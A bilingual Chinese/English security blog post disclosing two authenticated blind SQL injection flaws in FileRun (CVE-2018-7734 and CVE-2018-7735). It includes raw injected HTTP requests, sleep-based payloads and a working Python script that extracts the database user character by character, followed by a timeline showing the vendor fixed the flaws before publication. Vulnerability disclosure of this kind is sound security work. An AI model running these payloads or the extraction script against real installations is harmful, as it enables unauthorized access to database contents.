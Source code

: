 ```yaml
---
layout: post
title: FileRun <= 2017.09.25 Blind SQLi
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - scanf</p>

## 0x00 Preface

&nbsp;&nbsp;&nbsp;在内部分享中需要用到私有的云盘服务,一番寻找之后发现FileRun是个不错的应用程序.FileRun允许我们自己搭建云存储，方便我们的照片，视频等文件更好的分享和存储.
&nbsp;&nbsp;&nbsp;Sometimes team private file sharing need use file sharing web application.I noticed FileRun is a great application,This application allows us to access our files anywhere through self-hosted secure cloud storage.

## 0x01 How To Find The Vulnerability

&nbsp;&nbsp;&nbsp;需要我们以`superuser`登录后台

These vulnerabilitys was found after the authentication. After we logged in as `superuser`.

### SQL1

控制面板——>Admin——>用户——>快速搜索,这样将会发送一个POST请求。

go to control panel——>Admin——>user——>search,will generate a POST request to the server.

{% highlight javascript %}
POST /?module=users&section=cpanel&page=list HTTP/1.1
Host: target.com
Content-Length: 20
Origin: http://target.com
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Referer: http://target.com/?module=cpanel&_popup_id=popups_1
Accept-Language: zh-CN,zh;q=0.9
Cookie: __cfduid=d7455062d8788785c8b64d8dfef5a7f041513411013; language=chinese; FileRunSID=e578cd49697ef564ed0979bde9d67dcf
Connection: close

limit=50&search=aaaa
{% endhighlight %}

我注意到search参数容易受到SQL注入的影响,通过传入aaaa' 服务器返回了一个500的响应状态:

I notice that the search parameter might be vulnerable to SQL Injection,I injected a single quote after the value (example:aaaa'),examined the server response error:

然后构造了基于sleep函数延时的payload:

Use MySQL's delay function sleep () to testing.

<img src="https://i.loli.net/2018/11/30/5c01504c70061.png">

{% highlight javascript %}
'xor(sleep(5))or'
{% endhighlight %}

结果如下

<img src="https://i.loli.net/2018/11/30/5c015098123ba.png">

然后使用Blind SQL注入技术来获取select user()数据验证脚本如下：

Here I create a simple script to extract current select user()query result using Boolean-based technique.

{% highlight python %}

#!/usr/bin/env python
# -*- coding:utf-8 -*-
#__author__ = 'scanf'
import httplib
import time

headers = {'Content-Type': 'application/x-www-form-urlencoded',
           'User-Agent': 'Googlebot/2.1 (+http://www.googlebot.com/bot.html)',
           'Cookie': '__cfduid=d7455062d8788785c8b64d8dfef5a7f041513411013; language=chinese; FileRunSID=e578cd49697ef564ed0979bde9d67dcf',
           #'Cookie' : 'input you cookie',
           }
payloads = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789@_.*'
print '[%s] Start to retrive MySQL User:' % time.strftime('%H:%M:%S', time.localtime())
user = ''
for i in range(1, 15):
        for payload in payloads:
            s = "aaaa'xor(if(ascii(mid(user()from(%s)for(1)))=%s,1,0))or'" % (i, ord(payload))
            s = '''limit=50&search=''' + s
            #url = http://target.com/?module=users&section=cpanel&page=list
            conn = httplib.HTTPConnection('target.com', timeout=30)
            conn.request(method='POST', url='/?module=users&section=cpanel&page=list', body=s,headers=headers)
            start_time = time.time()
            html_doc = conn.getresponse().read()
            conn.close()
            print '.',
            if html_doc.find('uid') > 0:
                user += payload
                print '\n[in progress]', user,
                break
print '\n[Done] MySQL user is %s' % user

{% endhighlight %}

{% highlight javascript %}
[20:39:20] Start to retrive MySQL User:
. . . . . . 
[in progress] f . . . . . . . . . 
[in progress] fi . . . . . . . . . . . . 
[in progress] fil . . . . . 
[in progress] file . . . . . . . . . . . . . . . . . . 
[in progress] filer . . . . . . . . . . . . . . . . . . . . . 
[in progress] fileru . . . . . . . . . . . . . . 
[in progress] filerun . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
[in progress] filerun@ . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
[in progress] filerun@1 . . .
{% endhighlight %}

### SQL2

控制面板——>元数据——>快速搜索,输入字符串后将发起一个POST请求:

control panel——>Metadata——>search Same as SQL1,will generate a POST request to the server:

{% highlight javascript %}
POST /?module=metadata&section=cpanel&page=list_filetypes HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://target.com/?module=cpanel&_popup_id=popups_1
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 36
Cookie: __cfduid=df5ddd49a2303cb2e13b6aa8ece2af7b11513411363; FileRunSID=fa163cd088b68ae20c689826e3a70479; language=chinese
Connection: close

limit=50&search=aaa'xor(sleep(2))or'
{% endhighlight %}

然后超时后响应:

sleep() function is executed:

<img src="https://i.loli.net/2018/11/30/5c0150d5f182e.png">

## timeline

* 2017.12.18 发现漏洞并联系官方 Discover the vulnerability and contact the official
* 2017.12.22 等待官方处理 Waiting for official processing
* 2018.2.13 官方修复2.13并致谢并允许公开 Officially fixed 2.13 and thanks and open for publication
* 2018.3.6 请求cve漏洞编号 Request cve
* 2018.3.7 获得CVE-2018-7734 CVE-2018-7735

cve information：

http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7734
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7735